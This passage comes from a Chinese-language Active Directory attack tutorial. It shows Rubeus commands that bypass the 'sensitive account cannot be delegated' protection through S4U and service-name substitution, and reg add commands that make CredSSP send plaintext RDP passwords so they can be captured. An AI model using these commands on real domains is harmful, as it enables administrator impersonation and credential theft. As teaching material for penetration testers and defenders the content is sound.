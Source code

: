 #### 敏感用户不可委派的绕过

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMw8MjHlMX21iceY6qMRWRJHAYt8tq5DUeYgbbicIITGlL55OLn0ic1QjcQ/640?wx_fmt=png)

若我们的 administrator 用户被设置为敏感用户不可委派或者被加入保护组，按理说他的访问就不能进行委派。

我们在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行 S4U2PROXY。我们用`Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/dm2008 /ptt`继续实验 administrator，发现确实是这样

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMfUcuMqYMu4H8xbl5Dkp38TK2ghdWl7YiaIu8RQkS5q4qbibXUcTFSjaA/640?wx_fmt=png)

此时我们用 rubeus.exe describe /ticker:S4Ubase64 加密的票据

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMvnjCPrh5QUT5HNa6juDr4ZN9f6LubR2MhGZGia8z1eV5zLVhPeWV4eQ/640?wx_fmt=png)

可以发现 servicename 并没有指定某个服务，仅仅只有一个账户. 即发生了服务名称缺失的问题。很简单，把票据修改一下就行了. 网上很多说用这个工具  
https://www.pkisolutions.com/tools/asn1editor/  
但实际上 rubeus 也能完成票据修改`rubeus.exe tgssub /ticket:xxx /altservice:cifs/test1 /ptt`

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMIFbviarZ9qFmeXQibycWoMz4u7etJNzF9HIY6mGwMF0ebE8ibCAeAiaTZw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMPia4ghqTO9jjBRS4EYNQerj3KF2zkHSZShN2cicxcEtpjDTicufOjZnFw/640?wx_fmt=png)

完事

**六、credssp 导出用户明文密码**
----------------------

CredSSP 协议的目的是将用户的明文密码从 CredSSP 客户端委派给 CredSSP 服务器。通常运用于远程桌面服务。

我们在配置这个协议时，一般在组策略编辑器里配置。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMLQofVRZS8JeE9ibfJrI4oB7GnDEM4Ovic7ib34j6UdImdZRUYF5X3jBpA/640?wx_fmt=png)

Allow delegating default credentials 表示在通过使用受信任的 X509 证书或 Kerberos 实现服务器身份验证时自动发送当前用户的凭据，即明文密码。

Allow delegating default credentials with NTLM-only server authentication 表示在通过 NTLM 实现服务器身份验证时自动发送当前用户的凭据，即明文密码。

这几个属性在注册表里对应

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation。

### **攻击原理**

那么这样看，这个攻击流程就很自然了。  
我们要获得两台机器，一台机器当作远程桌面的服务器，一台当作远程桌面的客户端。  
在客户端上配置组策略（CREDSSP），使其在远程桌面身份验证时发送明文密码。  
然后开始远程桌面验证，在服务器上获得客户端发来的明文密码.

### **实操**

1. 通过修改注册表，改变组策略身份验证的凭据策略 (选一个），这一步需要管理员权限，本地或域管

```
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d *reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d *
```
